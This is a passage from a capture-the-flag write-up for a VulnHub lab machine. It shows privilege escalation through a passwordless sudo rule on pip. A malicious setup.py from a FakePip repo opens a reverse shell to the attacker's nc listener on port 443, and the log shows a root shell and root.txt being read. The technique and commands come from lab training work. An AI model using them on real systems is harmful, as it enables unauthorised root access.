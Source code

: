 Yay, it worked! We have our 2nd flag. Move on!

### r00ted, flag root.txt

We see that `devops` is allowed to run `/usr/bin/pip` with no password, that would be the only command we could run as we don't know the password of the user.

And this took me a long time to find any useful information about it. Googling "pip privilege escalation" brought me to nothing. Finally "sudo pip exploit" brought me the Github repo [FakePip](https://github.com/0x00-0x00/FakePip).

(Yes, I know I was lazy. I could have also read about pip and how it processes files and thinking of writing my own exploit. But meh, you know... :sleepy:)

There we see that a "malicious" (let's call it that way) `setup.py` is being processed by **pip**. This will run also commands inside of `setup.py`. 

Just change the IP in the file.

Then run it after listening to port *443* via `nc`:

```shell
==[ On local machine ]=========

root@kali:~/vulnhub/wakanda# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

==[ On remote machine ]=========

$ sudo /usr/bin/pip install . --upgrade --force-reinstall
Unpacking /home/devops
  Running setup.py (path:/tmp/pip-gDsHVR-build/setup.py) egg_info for package from file:///home/devops
    
Installing collected packages: FakePip
  Running setup.py install for FakePip
    
==[ In our nc on port 443 ]=========

listening on [any] 443 ...
connect to [10.20.20.138] from (UNKNOWN) [10.20.20.128] 58485
root@Wakanda1:/tmp/pip-gDsHVR-build# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Wakanda1:/tmp/pip-gDsHVR-build# cd /root
cd /root
root@Wakanda1:~# ls -al
ls -al
total 20
drwx------  2 root root 4096 Aug  5 02:26 .
drwxr-xr-x 22 root root 4096 Aug  1 13:05 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r-----  1 root root  429 Aug  1 15:16 root.txt
root@Wakanda1:~# cat root.txt
cat root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
```